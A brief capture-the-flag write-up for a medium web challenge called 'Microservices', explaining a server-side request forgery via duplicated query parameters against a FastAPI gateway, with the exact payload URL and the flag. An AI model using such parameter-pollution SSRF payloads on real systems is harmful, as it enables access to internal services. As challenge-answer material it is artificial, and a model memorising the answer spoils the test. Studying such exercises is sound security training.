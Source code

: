 # Microservices
Difficulty: Medium
Category: Web

### Description:

Mặc dù mới bắt đầu học về Microservice nhưng mình tin rằng trang web của mình đủ khả năng chống lại các hacker lỏ.
 
Nếu không tin thì bạn có thể vào đây thử: [here (insert url)](#)

### Concepts

Server Side Request Forgery (SSRF)

### Solution

1. Make use of multiple of the same arguments
2. Enter the URL of the homepage into the gateway
3. The FastAPI gateway will return the flag

### Payload
```
http://localhost:3000/?service=admin_page&service=home_page&url=http://home_page
```

### Flag
`ehctf{oi_kh0ng!_h4cker_l0r_manh_den_vay_sa0!!}`
